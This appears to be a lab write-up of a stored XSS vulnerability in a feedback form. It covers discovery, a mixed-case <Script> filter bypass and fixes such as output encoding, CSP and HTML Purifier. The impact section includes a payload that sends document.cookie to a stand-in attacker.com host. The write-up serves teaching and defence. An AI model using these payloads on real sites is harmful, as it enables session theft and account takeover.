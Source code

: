 # Stored Cross-Site Scripting (XSS) Vulnerability

## How I Found It

### Step-by-Step Discovery Process

1. **Initial Reconnaissance**
   - Navigated to the feedback page at `http://192.168.1.16/?page=feedback`
   - Identified a form with two input fields: Name and Message
   - Observed the form accepts user input and displays it back on the page

2. **Frontend Analysis**
   - Inspected the page source code
   - Found client-side validation in JavaScript:
     - `maxlength="10"` on Name field
     - `maxlength="50"` on Message field
     - `validate_required()` function checks for empty fields
     - Form uses `onsubmit="return validate_form(this)"`

3. **Testing Basic XSS Payloads**
   - Attempted to submit `<script>alert('XSS')</script>` in the Name field
   - Observed that the application appears to sanitize `<script>` tags (converts to lowercase and strips them)

4. **Identifying the Bypass**
   - Noticed that case-sensitivity might be exploited
   - HTML parsers treat `<Script>`, `<SCRIPT>`, and `<script>` identically
   - The server-side filter only removes lowercase `<script>` tags

## How I Exploited It

### Method 1: Using Browser Developer Tools

1. **Open Browser Developer Tools**

2. **Modify HTML Directly**
   ```html
   <!-- Before: -->
   <input name="txtName" type="text" size="30" maxlength="10">
   
   <!-- After: Remove or increase maxlength -->
   <input name="txtName" type="text" size="30" maxlength="100">
   ```

3. **Submit Payload with Mixed Case**
   - Name field: `<Script>alert('XSS')</Script>`
   - Message field: Any valid message
   - Submit the form

## Why It Works

### Root Cause Analysis

1. **Insufficient Input Validation**
   - The application only filters lowercase `<script>` tags
   - The filter logic likely uses simple string matching: `str_replace('<script>', '', $input)`
   - Does not account for case variations

2. **Client-Side vs Server-Side Validation**
   - **Client-side validation** (JavaScript) can be bypassed:
     - Users can disable JavaScript
     - HTML can be modified in Developer Tools
     - HTTP requests can be intercepted and modified
   - **Server-side validation** is incomplete:
     - Only checks for lowercase tags
     - Doesn't use proper HTML sanitization libraries

3. **Stored XSS Nature**
   - The malicious payload is **stored in the database**
   - Every time a user visits the feedback page, the script executes
   - This is more dangerous than reflected XSS because:
     - It's persistent
     - Affects all users who view the page
     - No user interaction required beyond visiting the page

4. **HTML Parser Behavior**
   - HTML is case-insensitive for tag names
   - `<Script>`, `<SCRIPT>`, and `<script>` are all valid and executable
   - The browser normalizes these to `<script>` during parsing

### Attack Impact

**High Severity** - Attackers can:
- Steal session cookies: `<Script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</Script>`
- Modify page content to display fake login forms
- Execute actions on behalf of authenticated users
- Install keyloggers to capture credentials

## How to Fix It

### 1. **Implement Proper Output Encoding**

Always encode user input before displaying it in HTML:

```php
// PHP Example
echo htmlspecialchars($user_input, ENT_QUOTES, 'UTF-8');

// This converts:
// < to &lt;
// > to &gt;
// " to &quot;
// ' to &#039;
```

### 2. **Use Content Security Policy (CSP)**

Add HTTP headers to prevent inline script execution:

```http
Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none'
```

This prevents execution of inline scripts even if XSS payloads are injected.

### 3. **Implement Robust Input Validation**

```php
// Server-side validation (PHP example)
function sanitize_input($data) {
    // Remove all HTML tags
    $data = strip_tags($data);
    
    // Or use a whitelist approach with HTML Purifier
    require_once 'HTMLPurifier.auto.php';
    $config = HTMLPurifier_Config::createDefault();
    $purifier = new HTMLPurifier($config);
    $clean_data = $purifier->purify($data);
    
    return $clean_data;
}

// Apply to all user inputs
$name = sanitize_input($_POST['txtName']);
$message = sanitize_input($_POST['mtxtMessage']);
```

### 4. **Never Trust Client-Side Validation**

- Client-side validation is for **user experience only**
- **Always validate on the server side**
- Assume all client-side controls can be bypassed

## OWASP References

- **CWE-79**: Improper Neutralization of Input During Web Page Generation (Cross-site Scripting)
- **OWASP XSS Prevention Cheat Sheet**: https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html

## Conclusion

This Stored XSS vulnerability exists due to:
1. Inadequate input sanitization (case-sensitive filtering)
2. Over-reliance on client-side validation
3. Lack of output encoding
4. Absence of Content Security Policy

The fix requires a defense-in-depth approach: proper input validation, output encoding, CSP headers, and secure coding practices throughout the application.